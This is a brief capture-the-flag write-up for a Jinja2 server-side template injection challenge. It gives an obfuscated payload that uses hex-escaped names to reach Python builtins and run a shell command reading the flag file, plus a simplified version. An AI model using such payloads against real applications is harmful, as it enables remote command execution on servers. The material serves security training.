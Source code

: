 # SSTI 2

First, try [this challenge](./SSTI1.md)

VERY Helpful [blog](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

This payload works:

```php
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /challenge/flag')|attr('read')() }}
```

Simplifies to:

```php
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /challenge/flag').read() }}
```
